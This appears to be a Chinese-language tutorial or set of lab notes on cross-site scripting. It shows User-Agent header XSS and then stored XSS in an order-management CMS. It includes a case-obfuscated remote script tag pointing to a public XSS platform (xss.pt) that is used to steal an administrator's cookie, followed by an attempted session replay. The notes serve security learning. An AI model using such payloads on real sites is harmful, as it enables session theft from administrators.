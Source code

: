```plain
平台：useragent.openadmintools.com

访问这个平台，可以发现他抓取了浏览器信息。从新进行访问，抓包，修改数据包UA头。
```

![1645686384234-e86fc38c-4c85-4f5c-a373-fc861c52bf81.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834237-742169747.png)

```plain
数据包发送，就可以看到浏览器弹窗。
```

![1645686489536-6e2c8aaf-2e95-4de9-bb8d-2bdb2cd4cf0c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171834142-22545738.png)

```plain
但是这类漏洞构成危害不大。因为这个需要在UA头中修改，那么要怎么发给别人。别人访问的时候又不会修改UA头再去访问。所以这个漏洞很难。
```

- 存储型实例-订单系统CMS权限获取

------

```plain
安装jfdd，后台登录失败。但是这个cms类似于后台留言，下订单等。

下订单，留言一般会在后台显示，前台进行留言，后台进行查看。这就形成了xss攻击。

进行留言，在留言上写上payload
```

![1645689749369-141f8ac9-902a-4d19-9375-cc0c5e822bfe.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171833760-1297987855.png)

```plain
这样在后台登录，就可以执行JavaScript代码。这样后台管理员就造到了xss攻击。这个还是存储型跨站。

那么如何获取管理员的cookie呢
找一个xss平台，注册一个账号：https://xss.pt/xss.php

创建项目，然后进行功能选择，查看代码
```

![1645690039564-0e49524e-a0bb-4bc7-a66a-486df581885e.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171833907-426502537.png)

```plain
复制一个代码：<sCRiPt sRC=//xss.pt/X8Vz></sCrIpT>
然后写在订单中。等待管理员访问。在下面等待数据的接受。
```

![1645690168031-33c796d0-761c-4687-a172-6e7248c1e35a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171833711-1973986632.png)

```plain
在后台中登录，查看玩网络元素，会自动加载地址xss.php地址。
在xss.php平台上获取了cookie信息。可以尝试对后天地址访问。

比如对后台admin/admin.php?uid=3进行访问，抓包。对获得的cookie信息复制到数据包中。
但是这个cookie不能进行登录，因为在正常登录中cookie中有一个phpsessid的值，而获取的cookie信息没有phpsessid的值
这个网站采用的不是cookie验证，而是phpsessid进行验证。获取httponly也可以进行保护。
```
